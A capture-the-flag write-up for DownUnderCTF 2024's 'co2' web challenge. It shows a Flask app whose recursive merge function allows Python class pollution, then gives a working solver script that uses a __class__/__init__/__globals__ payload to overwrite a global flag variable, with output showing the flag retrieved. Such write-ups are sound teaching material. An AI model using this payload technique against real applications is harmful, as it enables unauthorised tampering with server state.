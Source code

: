 # DownUnderCTF 2024
## Web - co2 - easy
![Alt Text](./DownUnderCTF_Pic.png)

## First look
We were given a web application made by a group of students and we have been "hired" to test it how safe actually it is.
Started by looking at the source code and we saw in the routes.py a flag variable, so we knew that we were on the right path to look for. 

Some routes that we might want to check them up were:
```python
@app.route("/save_feedback", methods=["POST"])
@login_required
def save_feedback():
    data = json.loads(request.data)
    feedback = Feedback()
    merge(data, feedback)
    save_feedback_to_disk(feedback)
    return jsonify({"success": "true"}), 200


@app.route("/get_flag")
@login_required
def get_flag():
    if flag == "true":
        return "DUCTF{NOT_THE_REAL_FLAG}"
    else:
        return "Nope"
```

In the utils.py: 
```python
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```

We can see that in the get_flag function, it does a boolean check too see if the `flag == "true"`
and if it does it returns the flag
But how can we change it to true?
The data that goes to merge can overwrite values cause of bad implementation, so we can exploit that vulnerability to change the value of the flag value. 
This vulnerability called **Python Prototype Pollution**. 
You can read more about this attack from hacktricks that helped me to complete this challenge.
https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution


## Exploit
In the CTF I did manually with burp and just intercept the request and inject it there the code, but after the CTF ends I wrote a solver script with the steps of the exploit.
Here it is:

```python
from requests import Session

# setting up the paths of the url
base_url = "https://web-co2-19ca2661836e6d89.2024.ductf.dev"
register_url = base_url + "/register"
login_url = base_url + "/login"
save_feedback_url = base_url + "/save_feedback"
get_flag_url = base_url + "/get_flag"

# prototype pollution payload
payload = {

    "title": "test",
    "content": "test",
    "rating": "1",
    "referred": "vein",
    "__class__": {
        "__init__": {
            "__globals__": {
                "flag": "true"
            }
        }
    }
}

register_user = {
    "username": "vein",
    "password": "vein"
}

with Session() as session:
    # step 1: register a user
    r = session.post(register_url, data=register_user)
    print("Register status:", r.status_code)

    # step 2: login
    login_user = register_user
    r = session.post(login_url, data=login_user)
    print("Login status:", r.status_code)

    # just grab the cookie for the session
    cookies = session.cookies
    print(f"Cookies after login: {cookies}")

    # step 3: submit the payload
    r = session.post(save_feedback_url, json=payload)
    print("Submit payload status:", r.status_code)

    # step 4: get the flag
    r = session.get(get_flag_url)
    print("Get flag status:", r.status_code)
    print("Get flag response:", r.text)
```

## Take the flag
And we got the flag!
```console
┌──(vein㉿vein)-[~/sec/DownUnderCTF_2024]
└─$ python3 exploit.py
Register status: 200
Login status: 200
Cookies after login: <RequestsCookieJar[<Cookie session=.eJwlzjEOwjAMheG7eGZw4thxehkU17ZgbemEuDtB6G1v-PS_4Z5HnA_YXscVN7g_HTZgqTnqDCdjbSE7tkamLlP3IULdUqK6Ik-nijRQy8ywQZGiVazWZuzaWXpbm4iFCQeHD7HIpNZ07336DyjL6H09mssOCYYVcp1x_GsKfL5_2y5G.Zo2SnA.V-bnliYnsW1jW7U8ZJ15g11Lnq4 for web-co2-19ca2661836e6d89.2024.ductf.dev/>]>
Submit payload status: 200
Get flag status: 200
Get flag response: DUCTF{_cl455_p0lluti0n_ftw_}
```
